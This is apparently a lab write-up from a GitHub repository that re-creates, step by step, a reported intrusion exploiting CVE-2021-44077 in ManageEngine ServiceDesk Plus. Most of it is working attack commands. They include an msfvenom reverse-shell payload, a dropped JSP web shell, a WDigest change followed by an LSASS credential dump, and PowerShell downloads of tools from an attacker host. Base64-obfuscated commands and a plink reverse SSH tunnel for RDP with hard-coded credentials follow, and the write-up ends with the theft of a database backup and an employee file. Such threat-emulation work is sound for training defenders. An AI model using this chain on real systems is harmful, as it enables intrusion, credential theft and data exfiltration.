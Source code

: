 
# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

### 1. in the POC msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```

![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

#### But this approach isn't the same as the report, as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.

![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is created a the `\custom\login` directory

![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)


#### then used `pyinstaller` to convert it to an executable exe file

![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

#### now we have `msiexec.exe`, let's use the exploit again

![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

#### It Worked !!

![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

#### No Need for Privilege Escalation

![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

<hr />

### 2. Next step we are enabling wdigest then dumping LSASS then downloading it

a. is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```

![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)


c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```

![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it

![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`, i will be adding this to the lab for more fun

![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```

![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

j. Download it

![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)

<hr />

### 3. now we have the dump, we will skip the process of fetching the passwords for now, Lets Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```

![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)

j. Let's run our batch...

![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)

k. Now It's RDP time

![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

it WORKED !!
![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)


### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

b. there is a file named `Employees.xls` located on the Desktop let's see it 

![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!

